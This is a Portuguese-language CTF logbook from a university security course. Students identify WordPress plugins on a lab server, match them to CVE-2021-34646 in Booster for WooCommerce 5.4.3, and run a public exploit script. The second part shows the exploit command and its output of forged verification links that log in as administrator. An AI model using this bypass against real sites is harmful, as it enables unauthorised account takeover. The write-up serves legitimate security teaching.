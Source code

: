# Logbook3

## Primeira parte

Começamos por ceder à página **http://ctf-fsi.fe.up.pt:5001**, um servidor WordPress, e procurar por todas as dependências/plugins do site tanto no código-fonte como nas várias páginas do site. 

Ao navegar pelos produtos do site encontramos o "WordPress Hosting" e na "Additional Information" desse mesmo produto descobrimos as seguintes dependências/plugins:

- #### Wordpress 5.8.1
- #### Woocommerce plugin 5.7.1
- #### Booster for WooCommerce plugin 5.4.3

Após esta descoberta procuramos na internet alguma vulnerabilidade 
destas dependências e respetivas versões que pudesse ser utilizada para nos autenticarmos como outro utilizador numa plataforma. Acabamos 
por encontrar a CVE-2021-34646, uma vulnerabilidade do Booster for WooCommerce plugin 5.4.3 que correspondia ao que procurávamos.

Submetemos a **flag[CVE-2021-34646]** e concluímos a primeira etapa.

## Segunda parte

Após aceder à seguinte página **https://www.exploit-db.com/exploits/50299** encontramos uma explicação detalhada de como explorar a vulnerabilidade que tinhamos identificado e um script em Python.
 Primeiro tivemos que descobrir o ID de um administrador. Depois de confirmar que o userID do admin era 1, tinhamos todas as informações necessárias para correr o script de Python disponível na página citada no parágrafo anterior e autenticarmo-nos como administrador da plataforma.

Escrevemos no terminal o seguinte:
````
$ python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
````

E foram criados os seguintes links:

````
Timestamp: Sat, 07 Oct 2023 14:24:29 GMT
Timestamp (unix): 1696688669

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4483648f775bada837cd01ff4912fd7e:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDQ4MzY0OGY3NzViYWRhODM3Y2QwMWZmNDkxMmZkN2UifQ

#1 link for hash 7cdedfcd573df0e2ee6c62f2733ce7e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2NkZWRmY2Q1NzNkZjBlMmVlNmM2MmYyNzMzY2U3ZTgifQ

#2 link for hash 5738fc0222e582b5b6441737cdeff829:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNTczOGZjMDIyMmU1ODJiNWI2NDQxNzM3Y2RlZmY4MjkifQ
````

A partir daqui precisamos apenas de aceder a um dos links e passamos a estar autenticados como administradores do site.

Depois disto apenas tivemos que aceder à página **http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php** tal como foi especificado no guião fornecido no moodle e encontrar a flag do desafio no post privado "Message to our employees": `flag{please don't bother me}`.